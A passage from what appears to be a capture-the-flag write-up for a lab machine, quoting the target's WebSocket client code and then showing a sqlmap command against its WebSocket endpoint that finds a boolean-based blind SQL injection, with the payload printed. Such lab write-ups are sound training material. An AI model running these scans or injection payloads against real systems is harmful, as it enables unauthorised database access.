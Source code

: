             function keyOne(e) {
                e.stopPropagation();
                if (e.keyCode === 13) {
                    e.preventDefault();
                    sendText();
                }
            }
            
            function sendText() {
                var msg = input.value;
                if (msg.length > 0) {
                    ws.send(JSON.stringify({
                        "id": msg
                    }))
                }
                else append("????????")
            }
        }
        
        ws.onmessage = function (e) {
            append(e.data)
        }
        
        function append(msg) {
            let p = document.querySelector("p");
            // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
            // p.style.color = randomColor;
            p.textContent = msg
        }
    </script>
    ```

- I can use BurpSuite to edit open communication to my liking; since an ID is being checked a backend is probably being queried.

    I try to see if I can exploit a SQLI by focusing on the MYSQL DBMS which is most likely installed on the host as port 3306 is open.

    Also I can see the MYSQL version with the command: `mysql -V`
    ```
    mysql  Ver 8.0.31-0ubuntu0.20.04.2 for Linux on x86_64 ((Ubuntu))
    ```

    And finally see if it matches the response on the listening port:<br>
    `curl --http0.9 localhost:3306 > /tmp/out.txt 2>&1`
    ```
    8.0.31-0ubuntu0.20.04.208I{ta#o�����0cyOt@-KF>'caching_sha2_password!��#08S01Got packets out of order
    ```

    Ok, the backend is MYSQL, so if it's used there might be a SQLI:<br>
    [`sqlmap -u "ws://soc-player.soccer.htb:9091/" --method=POST --data='{"id":"1*"}' --dbms=MySQL --risk 3`](https://hacktips.it/websocket-penetration-test/)
    ```
    Parameter: JSON #1* ((custom) POST)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause
        Payload: {"id":"-5963 OR 3767=3767"}
    ```
